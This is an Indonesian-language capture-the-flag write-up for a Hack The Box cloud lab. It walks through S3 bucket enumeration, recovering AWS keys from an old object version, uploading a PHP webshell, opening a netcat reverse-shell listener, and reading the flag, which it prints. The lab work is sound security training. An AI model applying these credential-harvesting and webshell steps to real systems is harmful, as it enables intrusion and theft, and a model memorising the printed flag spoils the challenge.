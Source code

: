 #cloud #easy #s3 #aws #rce


# Steps
1. Buat persiapan dengan memasukkan informasi hostname pada `/etc/hosts`
```sh
sudo nano /etc/hosts

# masukkan entry berikut ini
<IP_address> unveiled.htb
``` 


2. Di dalam page source web, terdapat dua informasi penting. Yang pertama adalah username `galen` dan source yang mengarah kepada link  s3 bucket.
```html
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->

<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```


3.  Melihat informasi tersebut, kita bisa mendaftarkan IAM user pada AWS dan mendapatkan `aws_access_id` dan `aws_access_key`. Kemudian masukkan kedua informasi tersebut pada dengan perintah `aws configure --profile test
   

4. Untuk mempercepat proses pengerjaan, gunakan script berikut ini melalui bash terminal.
```shell
export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

5. Listing terhadap aws s3 bucket dengan menggunakan `s3api`. Terdapat dua bucket pada endpoint url tersebut, yaitu `unveiled-backups` dan `website-assets`.  Pada bucket `unveiled-backups` ini terdapat dua file, yaitu `index.html` dan `main.tf`.  
```sh
$ aws s3api list-buckets --profile test 
Buckets:
- CreationDate: '2023-07-17T10:19:00+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-17T10:19:01+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a


$ aws s3api list-objects-v2 --bucket 'unveiled-backups' --profile test
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-17T10:19:04+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-17T10:19:05+00:00'
  Size: 1107
  StorageClass: STANDARD

```


6. `main.tf` adalah sebuah file Terraform yang kemungkinan berisi `aws_access_id` dan `aws_key` . Namun sayangnya kedua parameter tersebut tidak ditemukan pada `main.tf`. Kemungkinan terdapat versi file lama yang berisikan value sensitif tersebut.
```shell
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```


7. Pada bucket `unveiled-backups` terdapat ACL dengan permission `FULL_CONTROL` yang diberikan kepada user `webfile`.
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups --profile test
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

```


7. Melihat version pada bucket `unveiled-backups` untuk mencari informasi sensitif pada file `main.tf`. Kita dapatkan VersionId dengan nilai `bf4e51a6-5bf0-4622-a833-b0948bbc2acd`.
```sh
$ aws s3api list-object-versions --bucket unveiled-backups --profile test
Versions:
...
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-17T10:19:03+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167
  StorageClass: STANDARD
  VersionId: bf4e51a6-5bf0-4622-a833-b0948bbc2acd
```


8. Mengunduh file `main.tf` pada versi `bf4e51a6-5bf0-4622-a833-b0948bbc2acd` dengan dama `main.tf.old`. Kemudian membaca file tersebut. Kita akan mendapatkan `aws_access_key` dan `aws_secret_key` yang dapat kita gunakan pada aws cli.
```shell
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id bf4e51a6-5bf0-4622-a833-b0948bbc2acd main.tf.old --profile test
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-17T10:19:03+00:00'
Metadata: {}
VersionId: bf4e51a6-5bf0-4622-a833-b0948bbc2acd


$ cat main.tf.old                    
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
...

```


8. Menggunakan nilai `aws_access_key` dan `aws_secret_key` dan membuat satu profile baru bernama `unveilied`. Profile ini kemudian akan digunakan sebagai konfigurasi yang dipakai untuk mengakses bucket `website-assets` 
```shell
$ aws configure --profile unveiled
AWS Access Key ID [None]: AKIA6CFMOGFLAHOPQTMA
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-3
Default output format [None]:


$ aws sts get-caller-identity --profile unveiled
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

```


9. Melakukan listing directory pada bucket `website-assets` dengan menggunakan profile `unveiled`.
```
$ aws s3 ls s3://website-assets --profile unveiled
2023-07-17 17:19:02      91790 background.jpg
2023-07-17 17:19:02       4372 index.html

```


10. Profile `unveiled` ini dapat digunakan untuk mengunggah webshell menuju bucket `web-assets` tersebut.
```
$ aws s3 cp shell.php s3://website-assets --profile unveiled
upload: ./shell.php to s3://website-assets/shell.php 

$ nc -lnvp 4444

$ curl http://<ip_address>/shell.php
```


11. Flag ada pada lokasi `$ cat /var/www/flag.txt:` `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`



# Referensi
- Writeups: [https://github.com/godylockz/Writeups/blob/main/Cloud-Unveiled.md](https://github.com/godylockz/Writeups/blob/main/Cloud-Unveiled.md)

